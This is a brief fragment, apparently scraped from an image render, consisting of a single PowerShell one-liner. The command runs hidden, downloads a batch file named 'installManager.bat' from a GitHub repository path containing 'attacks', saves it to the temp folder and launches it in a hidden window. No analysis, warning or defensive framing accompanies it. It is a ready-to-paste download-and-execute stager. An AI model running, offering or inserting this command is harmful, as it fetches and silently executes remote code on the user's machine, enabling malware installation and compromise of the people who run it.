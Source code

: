powershell -w h -c "iwr https://raw.githubusercontent.com/petrohemia/attacks/refs/heads/main/installManager.bat -o $env:tmp\im.bat;Start-Process -WindowStyle Hidden $env:tmp\im.bat -ArgumentList 'print.py'"
